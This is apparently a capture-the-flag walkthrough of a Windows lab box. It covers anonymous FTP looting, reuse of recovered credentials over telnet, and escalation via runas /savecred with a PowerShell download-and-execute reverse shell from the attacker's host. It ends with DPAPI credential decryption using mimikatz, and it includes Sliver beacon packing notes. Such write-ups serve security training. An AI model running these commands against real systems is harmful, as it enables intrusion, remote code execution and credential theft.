






Discover
Nmap
sudo nmap -A -v -T4 10.10.10.98
21/tcp open ftp Microsoft ftpd
| ftp-syst:
|_ SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: PASV failed: 425 Cannot open data connection.
23/tcp open telnet?
80/tcp open http Microsoft IIS httpd 7.5
|_http-server-header: Microsoft-IIS/7.5
| http-methods:
| Supported Methods: OPTIONS TRACE GET HEAD POST
|_ Potentially risky methods: TRACE
|_http-title: MegaCorp
TRACEROUTE (using port 80/tcp)
HOP RTT ADDRESS
1 27.28 ms 10.10.14.1
2 29.15 ms 10.10.10.98FTP
- The FTP server allowed anonymous login
- logged in using FileZilla and downloaded 2 files
- backup.mdb → a MS access db
- Access Control.zip
MS access
Found some credentials

admin:admin
engineer:access4u@security
backup_admin:admin
Zip file
the pw access4u@security worked to unzip the file
Content:
- a .pst file

security:4Cc3ssC0ntr0ller
Getting access over telnet
Connect & login with creds → security:4Cc3ssC0ntr0ller
telnet 10.10.10.98 23
Priv escalation
- in c:\users\Public\Desktop there was a .lnk file targeting C:\Windows\System32\runas.exe
- Use the
cmdkeyto list the stored credentials on the machine.cmdkey /list Currently stored credentials: Target: Domain:interactive=ACCESS\Administrator Type: Domain Password User: ACCESS\Administrator - Then you can use
runaswith the/savecredoptions in order to use the saved credentials.
Using the old powershell reverse script from RastaLabs bobbafett.ps1
# On kali
python3 -m http.server 8080
nc -lvp 443
# On victim
runas.exe /savecred /user:ACCESS\Administrator "powershell IEX((new-object net.webclient).downloadstring('http://10.10.14.5:8080/bobbafett.ps1'))"
Flag in C:\Users\Administrator\Desktop → 3163472a9c76794a1ec51e3a6202413e
DPAPI
try 1:
Getting sliver beacon:
generate beacon --http 10.10.14.5 --format shellcode -S 5Nimpackt to dll:
python3 ./NimPackt.py -f dll -i ABUNDANT_TURKISH.bin -e shinjectExecute on victim:
# curl / iwr doesn't seem to worktry 2:
ls -Force C:\Users\security\AppData\Local\Microsoft\Vault
ls -Force C:\Users\security\AppData\Local\Microsoft\Credentials
ls -Force C:\Users\security\AppData\Local\Microsoft\Protect
ls -Force C:\Users\security\AppData\Roaming\Microsoft\Vault
ls -Force C:\Users\security\AppData\Roaming\Microsoft\Credentials
ls -Force C:\Users\security\AppData\Roaming\Microsoft\Protect


- Credential file:
- C:\Users\security\AppData\Roaming\Microsoft\Credentials\51AB168BE4BDB3A603DADE4F8CA81290
- masterkeys:
- C:\Users\security\AppData\Roaming\Microsoft\Protect\S-1-5-21-953262931-566350628-63446256-1001
- C:\Users\security\AppData\Local\Microsoft\Vault\4BF4C442-9B8A-41A0-B380-DD4A704DDB28
File transfer:
Get base64 strings:
# Credential file [Convert]::ToBase64String([IO.File]::ReadAllBytes("C:\Users\security\AppData\Roaming\Microsoft\Credentials\51AB168BE4BDB3A603DADE4F8CA81290")) AQAAAA4CAAAAAAAAAQAAANCMnd8BFdERjHoAwE/Cl+sBAAAALsOSB6VI40+LQ9k9ZFkFgAAAACA6AAAARQBuAHQAZQByAHAAcgBpAHMAZQAgAEMAcgBlAGQAZQBuAHQAaQBhAGwAIABEAGEAdABhAA0ACgAAABBmAAAAAQAAIAAAAPW7usJAvZDZr308LPt/MB8fEjrJTQejzAEgOBNfpaa8AAAAAA6AAAAAAgAAIAAAAPlkLTI/rjZqT3KT0C8m5Ecq3DKwC6xqBhkURY2t/T5SAAEAAOc1Qv9x0IUp+dpf+I7c1b5E0RycAsRf39nuWlMWKMsPno3CIetbTYOoV6/xNHMTHJJ1JyF/4XfgjWOmPrXOU0FXazMzKAbgYjY+WHhvt1Uaqi4GdrjjlX9Dzx8Rou0UnEMRBOX5PyA2SRbfJaAWjt4jeIvZ1xGSzbZhxcVobtJWyGkQV/5v4qKxdlugl57pFAwBAhDuqBrACDD3TDWhlqwfRr1p16hsqC2hX5u88cQMu+QdWNSokkr96X4qmabp8zopfvJQhAHCKaRRuRHpRpuhfXEojcbDfuJsZezIrM1LWzwMLM/K5rCnY4Sg4nxO23oOzs4q/ZiJJSME21dnu8NAAAAAY/zBU7zWC+/QdKUJjqDlUviAlWLFU5hbqocgqCjmHgW9XRy4IAcRVRoQDtO4U1mLOHW6kLaJvEgzQvv2cbicmQ== # Masterkey 1 [Convert]::ToBase64String([IO.File]::ReadAllBytes("C:\Users\security\AppData\Roaming\Microsoft\Protect\S-1-5-21-953262931-566350628-63446256-1001\0792c32e-48a5-4fe3-8b43-d93d64590580") AQAAAA4CAAAAAAAAAQAAANCMnd8BFdERjHoAwE/Cl+sBAAAALsOSB6VI40+LQ9k9ZFkFgAAAACA6AAAARQBuAHQAZQByAHAAcgBpAHMAZQAgAEMAcgBlAGQAZQBuAHQAaQBhAGwAIABEAGEAdABhAA0ACgAAABBmAAAAAQAAIAAAAPW7usJAvZDZr308LPt/MB8fEjrJTQejzAEgOBNfpaa8AAAAAA6AAAAAAgAAIAAAAPlkLTI/rjZqT3KT0C8m5Ecq3DKwC6xqBhkURY2t/T5SAAEAAOc1Qv9x0IUp+dpf+I7c1b5E0RycAsRf39nuWlMWKMsPno3CIetbTYOoV6/xNHMTHJJ1JyF/4XfgjWOmPrXOU0FXazMzKAbgYjY+WHhvt1Uaqi4GdrjjlX9Dzx8Rou0UnEMRBOX5PyA2SRbfJaAWjt4jeIvZ1xGSzbZhxcVobtJWyGkQV/5v4qKxdlugl57pFAwBAhDuqBrACDD3TDWhlqwfRr1p16hsqC2hX5u88cQMu+QdWNSokkr96X4qmabp8zopfvJQhAHCKaRRuRHpRpuhfXEojcbDfuJsZezIrM1LWzwMLM/K5rCnY4Sg4nxO23oOzs4q/ZiJJSME21dnu8NAAAAAY/zBU7zWC+/QdKUJjqDlUviAlWLFU5hbqocgqCjmHgW9XRy4IAcRVRoQDtO4U1mLOHW6kLaJvEgzQvv2cbicmQ==Convert back to original files using pwsh on kali:
[IO.File]::WriteAllBytes("51AB168BE4BDB3A603DADE4F8CA81290",[Convert]::FromBase64String("AQAAAA4CAAAAAAAAAQAAANCMnd8BFdERjHoAwE/Cl+sBAAAALsOSB6VI40+LQ9k9ZFkFgAAAACA6AAAARQBuAHQAZQByAHAAcgBpAHMAZQAgAEMAcgBlAGQAZQBuAHQAaQBhAGwAIABEAGEAdABhAA0ACgAAABBmAAAAAQAAIAAAAPW7usJAvZDZr308LPt/MB8fEjrJTQejzAEgOBNfpaa8AAAAAA6AAAAAAgAAIAAAAPlkLTI/rjZqT3KT0C8m5Ecq3DKwC6xqBhkURY2t/T5SAAEAAOc1Qv9x0IUp+dpf+I7c1b5E0RycAsRf39nuWlMWKMsPno3CIetbTYOoV6/xNHMTHJJ1JyF/4XfgjWOmPrXOU0FXazMzKAbgYjY+WHhvt1Uaqi4GdrjjlX9Dzx8Rou0UnEMRBOX5PyA2SRbfJaAWjt4jeIvZ1xGSzbZhxcVobtJWyGkQV/5v4qKxdlugl57pFAwBAhDuqBrACDD3TDWhlqwfRr1p16hsqC2hX5u88cQMu+QdWNSokkr96X4qmabp8zopfvJQhAHCKaRRuRHpRpuhfXEojcbDfuJsZezIrM1LWzwMLM/K5rCnY4Sg4nxO23oOzs4q/ZiJJSME21dnu8NAAAAAY/zBU7zWC+/QdKUJjqDlUviAlWLFU5hbqocgqCjmHgW9XRy4IAcRVRoQDtO4U1mLOHW6kLaJvEgzQvv2cbicmQ==")) [IO.File]::WriteAllBytes("0792c32e-48a5-4fe3-8b43-d93d64590580", [Convert]::FromBase64String("AgAAAAAAAAAAAAAAMAA3ADkAMgBjADMAMgBlAC0ANAA4AGEANQAtADQAZgBlADMALQA4AGIANAAzAC0AZAA5ADMAZAA2ADQANQA5ADAANQA4ADAAAAAAAAAAAAAFAAAAsAAAAAAAAACQAAAAAAAAABQAAAAAAAAAAAAAAAAAAAACAAAAnFHKTQBwjHPU+/9guV5UnvhDAAAOgAAAEGYAAOePsdmJxMzXoFKFwX+uHDGtEhD3raBRrjIDU232E+Y6DkZHyp7VFAdjfYwcwq0WsjBqq1bX0nB7DHdCLn3jnri9/MpVBEtKf4U7bwszMyE7Ww2Ax8ECH2xKwvX6N3KtvlCvf98HsODqlA1woSRdt9+Ef2FVMKk4lQEqOtnHqMOcwFktBtcUye6P40ztUGLEEgIAAABLtt2bW5ZW2Xt48RR5ZFf0+EMAAA6AAAAQZgAAD+azql3Tr0a9eofLwBYfxBrhP4cUoivLW9qG8k2VrQM2mlM1FZGF0CdnQ9DBEys1/a/60kfTxPX0MmBBPCi0Ae1w5C4BhPnoxGaKvDbrcye9LHN0ojgbTN1Op8Rl3qp1Xg9TZyRzkA24hotCgyftqgMAAADlaJYABZMbQLoN36DhGzTQ"))Copy files over to windows and launch mimikatz:
# cache cred file dpapi::cred /in:51AB168BE4BDB3A603DADE4F8CA81290 /sid:S-1-5-21-953262931-566350628-63446256-1001 /password:4Cc3ssC0ntr0ller # read key dpapi::masterkey /in:0792c32e-48a5-4fe3-8b43-d93d64590580 /sid:S-1-5-21-953262931-566350628-63446256-1001 /password:4Cc3ssC0ntr0ller # key : b360fa5dfea278892070f4d086d47ccf5ae30f7206af0927c33b13957d44f0149a128391c4344a9b7b9c9e2e5351bfaf94a1a715627f27ec9fafb17f9b4af7d2 # the masterkey is in the mimikatz cache now, so wp can be retrieved viewing the cred file dpapi::cred /in:51AB168BE4BDB3A603DADE4F8CA81290 # UserName : ACCESS\Administrator # CredentialBlob : 55Acc3ssS3cur1ty@megacorpACCESS\Administrator:55Acc3ssS3cur1ty@megacorp